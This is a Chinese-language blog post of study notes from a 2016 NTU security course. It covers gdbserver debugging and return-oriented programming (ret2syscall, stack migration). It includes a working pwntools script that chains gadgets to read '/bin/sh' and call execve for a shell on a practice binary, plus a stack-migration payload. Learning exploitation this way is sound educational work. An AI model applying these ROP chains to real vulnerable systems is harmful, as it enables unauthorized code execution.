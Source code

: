 ```yaml
---
title: NTU STCS 2016学习笔记 0x02 ROP
date: 2020-08-25 16:46:26
cover: cover.jpg
description: week4 shellcode rop
tags:
- pwn
categories:
- NTU STCS 2016学习笔记

---
```


# gdbserver

```bash
# in bash commandline
gdbserver 127.0.0.1:4000 ./binary #break在entrypoint
# in gdb commandline
gdb ./binary
$ target remote 127.0.0.1:4000
$ continue
# 搭配ncat
ncat -vc 'gdbserver 127.0.0.1:4000 .binary' -kl 127.0.0.1 5000
```

**trick**

使用gdbscript attach pid

```bash
# .gdbinit
set disassembly-flavor intel
define at
  shell echo attach $(pidof -s $arg0) > /tmp/foo.gdb
  source /tmp/foo.gdb
end
```

* * *

# rop

类型包括:ret2syscall ret2text ret2libc

## rop2syscall

-   找gadget控制syscall需要的regs(eax,ebx,ecx,edx)
-   需要int 80

**RopGadget**

```bash
#usage
RopGadget --binary ./binary
#int 80 ; ret
RopGadget --binary ./binary --opcode cd80c3
```

> PS:execve需要'/bin/sh'，且地址必须已知
> 用read吧需要的字符串输入至已知地址的buffer上

找可写page用于read(0,buf_addr,len)中的buf_addr
一般用bss最后一页即可

```bash
cat /proc/`pidof binary`/maps
readelf -a binary | less # 看Section Headers中的.bss
```

eg.

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
p = process('./p1')
elf = ELF('./p1')
g = lambda x: next(elf.search(asm(x)))
pop_eax_ret = g('pop eax ; ret') # 0x080b8126
pop_ebx_ret = g('pop ebx ; ret') # 0x080481c9
pop_ecx_ret = g('pop ecx ; ret') # 0x080de849
pop_edx_ret = g('pop edx ; ret') # 0x0806edca
int_0x80_ret = g('int 0x80 ; ret')
buf = 0x080eb000 - 100
raw_input('@')
offset = 62
# read(0, '/bin/sh\x00', 100)
rop1 = [
	pop_eax_ret,
	3,
	pop_ebx_ret,
	0,
	pop_ecx_ret,
	buf,
	pop_edx_ret,
	100,
	int_0x80_ret,
]
# execve('/bin/sh\x00', 0, 0)
rop2 = [
	pop_eax_ret,
	0xb,
	pop_ebx_ret,
	buf,
	pop_ecx_ret,
	0,
	pop_edx_ret,
	0,
	int_0x80_ret
]
payload = 'A' * offset + ''.join(map(p32, rop1)) + ''.join(map(p32, rop2))
p.sendline(payload)
p.sendline('/bin/sh\x00')
p.interactive()
```


### 使用较长的gadget

![long gadget](w4-long-gadget.png)

**leave指令**

```x86asm
#leave
mov   esp, ebp
pop   ebp
```

**Trick: Stack Migration**

-   使用leave把栈放到已知位置
-   确定rop chain的位置时可以直接附加其他data
-   可以无限rop
-   migrate后的空间要足够

```python
gadget1 = 0x8048898
# gadget1 has gets() and leave_ret
# 8048898:       50                      push   eax
# 8048899:       e8 e2 69 00 00          call   804f280 <_IO_gets>
# 804889e:       83 c4 10                add    esp,0x10
# 80488a1:       90                      nop
# 80488a2:       c9                      leave
# 80488a3:       c3                      ret
migration = [
    pop_ebp_ret,
    buf - 4,  #leave会pop ebp，所以要控制到buf-4位置
    pop_eax_ret,
    buf,
    gadget1,
]
rop = [
    pop_eax_ret,
    0xb,
    pop_ebx_ret,
    buf + 9 * 4,  #ropchain一共有9*4bytes
    pop_ecx_ret,
    0,
    pop_edx_ret,
    0,
    int_0x80_ret
]
payload1 = 'A' * offset + ''.join(map(p32, migration))
payload2 = ''.join(map(p32, rop)) + '/bin/sh\x00'
```
